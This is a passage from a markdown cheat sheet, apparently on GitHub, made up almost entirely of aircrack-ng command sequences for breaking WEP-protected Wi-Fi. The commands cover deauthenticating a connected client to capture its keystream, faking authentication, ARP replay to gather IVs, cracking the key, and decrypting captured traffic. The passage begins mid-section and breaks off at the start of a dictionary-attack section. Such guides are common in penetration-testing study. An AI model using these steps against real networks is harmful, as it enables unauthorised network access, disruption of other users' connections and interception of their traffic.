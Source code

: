 -> Cracking to discover the key
```bash
aircrack-ng -a 1 wep-02.cap 
```

### WEP SKA Attack
-> Enable monitor mode with airmon-ng
```bash
airmon-ng start wlan0
```

-> Obtain ESSID and target channel by passively monitoring Wi-Fi networks
```bash
airodump-ng wlan0
```

-> Monitor clients connected to the chosen Wi-Fi network
```
airodump-ng wlan0 --essid <ssid> --bssid <bssid> --channel <channel> -w wepska
```

-> Deauth a client connected to the Wi-Fi network and when it authenticates again, capture the keystream (xor file)
```bash
aireplay-ng -o 3 -a <bssid> -c <station_mac> wlan
```

-> Perform fake authentication with captured keystream
```bash
aireplay-ng -1 0 -a <bssid> -y <xor_file> wlan0
```

-> Send ARP replay packets increasing packets and collecting more IV's, in order to facilitate breaking later (wait until a good amount of packets, example: 50 thousand packets in #Data)
```bash
aireplay-ng -3 -b <bssid> -h <fake_client_mac> wlan0
```

-> Cracking to discover the key
```bash
aircrack-ng -a 1 wepska-01.cap
```

#### Other
-> If you want to decrypt a packet file with the discovered key, convert the WEP key to hexadecimal format
```bash
echo -n "<password>" | xxd -p
```

-> Use airdecap to crack the password based on your WEP key in hexadecimal
```bash
airdecap-ng -w "<hex_key>" wepska-01.cap
```

### WEP Dictionary (WEP-SKA or WEP-OPN) Attack
-> Monitor Wi-Fi networks, get the SSID and channel
```bash
airodump-ng wlan0
```
